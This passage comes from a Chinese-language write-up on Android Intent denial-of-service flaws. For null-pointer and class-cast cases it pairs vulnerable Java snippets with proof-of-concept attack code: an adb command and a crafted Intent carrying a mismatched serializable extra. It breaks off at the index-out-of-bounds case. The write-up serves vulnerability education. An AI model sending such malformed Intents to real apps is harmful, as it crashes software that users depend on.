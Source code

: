 * 3.漏洞原理：Android 系统中提供了 Intent 机制来协助应用间的交互与通讯，其负责对应用中一次操作的动作、动作涉及的数据、附加数据进行描述，系统则根据此 Intent 的描述，负责找到对应的组件，将 Intent 传递给调用的组件，并完成组件的调用。调用的组件在处理 Intent 附加数据的时候，没有进行异常捕获，因此当处理空数据、异常或者畸形数据时，导致应用崩溃。

  

### 漏洞详细 POC

* 1.NullPointException 异常导致的拒绝服务，源于程序没有对 getAction() 等获取到的数据进行空指针判断，从而导致空指针异常而导致应用崩溃；

  * 漏洞应用代码片段

    ```java
    Intent i = new Intent();
    if (i.getAction().equals("TestForNullPointerException")) {
        Log.d("TAG", "Test for Android Refuse Service Bug");
    }
    ```

  * 攻击应用代码片段

    ```powershell
    adb shell am start -n com.alibaba.jaq.pocforrefuseservice/.MainActivity
    ```

  * 攻击应用代码运行后结果截图

    ![NullPointException](https://itx-man.github.io/img/source/Snipaste_2020-05-14_15-10-19.png)

    ![NullPointException Log](https://itx-man.github.io/img/source/Snipaste_2020-05-14_15-11-44.png)
  
* 2.ClassCastException 异常导致的拒绝服务，源于程序没有对 getSerializableExtra() 等获取到数据进行类型判断而进行强制类型转换，从而导致类型转换异常而导致应用崩溃

  * 漏洞应用代码片段

    ```java
    Intent i = getIntent();
    String test = (String)i.getSerializableExtra("serializable_key");
    ```

  * 攻击应用代码片段

    ```java
    Intent i = new Intent();
    i.setClassName("com.alibaba.jaq.pocforrefuseservice", "com.alibaba.jaq.pocforrefuseservice.MainActivity");
    i.putExtra("serializable_key", BigInteger.valueOf(1));
    startActivity(i);
    ```

  * 攻击应用代码运行后结果截图

    ![ClassCastException](https://itx-man.github.io/img/source/Snipaste_2020-05-14_15-10-19.png)

    ![ClassCastException](https://itx-man.github.io/img/source/Snipaste_2020-05-14_15-35-12.png)

* 3.IndexOutOfBoundsException 异常导致的拒绝服务，源于程序没有对 getIntegerArrayListExtra() 等获取到的数据数组元素大小的判断，从而导致数组访问越界而导致应用崩溃
